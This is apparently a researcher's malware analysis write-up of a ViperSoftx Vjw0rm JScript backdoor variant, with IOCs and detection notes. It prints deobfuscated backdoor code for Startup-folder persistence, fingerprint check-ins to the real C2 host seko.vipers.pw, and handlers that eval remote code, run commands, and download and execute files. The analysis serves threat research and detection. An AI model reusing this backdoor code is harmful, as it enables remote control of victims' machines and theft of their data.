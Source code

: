 ```yaml
---
title: ViperSoftx Vjw0rm Variant
description: Another interesting analysis of a Vjw0rm variant.
toc: true
authors: c3rb3ru5d3d53c
tags:
  - vjw0rm
  - malware
  - analysis
  - vipersoftx
categories: malware
date: '2020-02-10'
lastmod: '2020-02-10'
draft: false
---
```


__Situation:__

While watching [Any.Run](https://any.run) for interesting scripts to deobfuscate, I noted that its traffic did appear to be like other variants of __vjw0rm__ however wasn't sure of what else it could do.

__Metadata:__

- Sample: __3236312b9dc691dd8b9214f08ff01e5d__

__Analysis__

The obfuscation techniques are pretty standard, the first stage deobfuscates base64 data then performs mathematic operations on it (I don't give a crap how they work I just let it do the heavy lifting for me), interestingly the base64 string is reversed.

After this then the obfuscation consistently used __eval__ which is easily replaced with __console.log__ and ran using __nodejs__ to dump the next stages.

It took approximatly twenty different times dumping the obfuscated code before I was able to access the deobfuscated code.


The script starts with setting up some global variables the script needs to run then makes a call to __ModinySks()__, this function is responsible to establishing persistence.

```js
var shell = new ActiveXObject('WScript.Shell');
var fstym = new ActiveXObject('Scripting.FileSystemObject');
var spl = '|V|';
var Ch = '\\';
var verss = 'viperSoftx_1.0.7.6';
var VN = verss + '_' + getSerial();
var Startup = getEnv('appdata') + '\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\';
var StartupAll = getEnv('allusersprofile') + '\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\';
var Temp = getEnv('temp') + '\\';
var Desktop = getEnv('userProfile') + '\\Desktop\\';
var AppData = getEnv('appdata') + '\\';
var fxDmE4zu = WScript.ScriptFullName;
var wn = WScript.ScriptName;
var UDex;
var DeLay = 20;
var ps = 'powershell.exe';
var batf = AppData + wn + '.bat';
var vbsf = AppData + wn + '.vbs';
var lnkf = Startup + wn + '.lnk';
ModinySks();
```

We can see that __powershell.exe__ is used to copy, the backdoor script to the __%AppData%__ folder then establishing persistence in the startup folder as a __LNK__ file.

```js
function ModinySks() {
	try {
		shell.Run(ps + " Copy-Item -Path '" + fxDmE4zu + "' -Destination '" + AppData + wn + "'", 0, false);
		var newpato = 'start wscript.exe /E:jscript """' + AppData + wn + '"""';
		CreateFile(vbsf, 'Set WshShell = WScript.CreateObject("""WScript.Shell""")' + '\n' + 'obj = WshShell.Run("""wscript.exe /E:jscript """"""' + AppData + wn + '""""""""", 0)' + '\n' + 'set WshShell = Nothing');
		createShort(lnkf, vbsf);
	} catch (err) {
	}
}
```

After persistence is achieved, it will checkin to the C2 server __seko[.]vipers[.]pw:8880__, send fingerprinting data in the __User-Agent__.

Interestingly, this variant adds the __X-Header__ HTTP header with the variant prefix / version as well.

```js
function SendHttp(R) {
	var X = new ActiveXObject('Microsoft.XMLHTTP');
	X.open('put', 'http://seko.vipers.pw:8880/connect', false);
	var useragent = getUserAgent();
	X.SetRequestHeader('User-Agent:', useragent);
	X.SetRequestHeader('X-Header:', VN);
	X.send(R);
	return X.responsetext;
}
```

The C2 server response body will be parsed by use of the delimiter __|V|__ much like previous variants.

```js
var send = SendHttp();
var Command = send.split(spl);
var order = Command[0];
var order_data = Command[1];
```

__C2 Command (Ex):__

Code:
```js
if (order === 'Ex') {
	eval(order_data);
}
```
Command from C2: __Ex|V|<jscript_code>__

__C2 Command (Cmd):__

Code:
```js
if (order === 'Cmd') {
	shell.Run(order_data, 0, false);
}
```

Command from C2: __Cmd|V|whoami__

__C2 Command (DwnlExe):__

Code:
```js
if (order === 'DwnlExe') {
	var path = Temp + Command[2];
	DownFile(Command[1], path, true);
	WScript.Sleep(DeLay * 1000);
	shell.Run("cmd.exe start '" + path + "'", 0, false);
}
```

Command from C2: __DwnlExe|V|<url>|V|<path>__

__C2 Command (DwnlOnly):__

Code:
```js
if (order === 'DwnlOnly') {
	varpathdwn = '';
	var path = Command[3];
	var exe = Command[4];
	if (path == 'startup') {
		pathdwn = Startup + Command[2];
	} else if (path == 'temp') {
		pathdwn = Temp + Command[2];
	} else if (path == 'desktop') {
		pathdwn = Desktop + Command[2];
	} else {
		pathdwn = path + Command[2];
	}
	if (pathdwn != '') {
		if (exe == 'yes') {
			DownFile(Command[1], pathdwn, true);
			WScript.Sleep(DeLay * 1000);
			shell.Run(ps + " start '" + pathdwn + "'", 0, false);
		} else {
			DownFile(Command[1], pathdwn, false);
		}
	}
}
```

__C2 Command (SelfRemove):__

Code:
```js
if (order === 'SelfRemove') {
	UnMonkSek(true);
}
```

__C2 Comamnd (UpdateS):__

```js
if (order === 'UpdateS') {
	var path = Temp + Command[2];
	DownFile(Command[1], path, true);
	if (fstym.fileexists(path)) {
		UnMonkSek(false);
		WScript.Sleep(DeLay * 1000);
		shell.Run(ps + " start wscript.exe /E:jscript '" + path + "'", 0, false);
		WScript.Quit(1);
	}
}
```

Command from C2: __UpdateS|V|<url>|V|<tmp_file_name>__

__C2 Checkin Traffic:__

```http
PUT /connect HTTP/1.1
Accept: */*
Accept-Language: en-us
User-Agent: viperSoftx_1.0.7.6_C4BA3647\USER-PC\Admin\Microsoft Windows 7 Professional [32]\\YES\undefined\
x-header: viperSoftx_1.0.7.6_C4BA3647
Accept-Encoding: gzip, deflate
Host: seko.vipers.pw:8880
Content-Length: 0
Connection: Keep-Alive
Cache-Control: no-cache
```

If you look closely the difference are the use of the __PUT__ HTTP method and the use of the __x-header__.

This is easy enough to create detection for.

__IOCS:__

```txt
3236312b9dc691dd8b9214f08ff01e5d
seko.vipers.pw
```

__References:__
- [Deobfuscated Samples](/samples/2020-02-10-vipersoftx.zip)
- [Any.Run](https://app.any.run/tasks/e97fabaa-96ca-4377-b0ee-2344d1c11291/)
- [VirusTotal](https://www.virustotal.com/gui/file/ad5e9d005b764ba80b93c31bec1814ee43ac13143ca67d795a05ae7dbe9cf72f/detection)
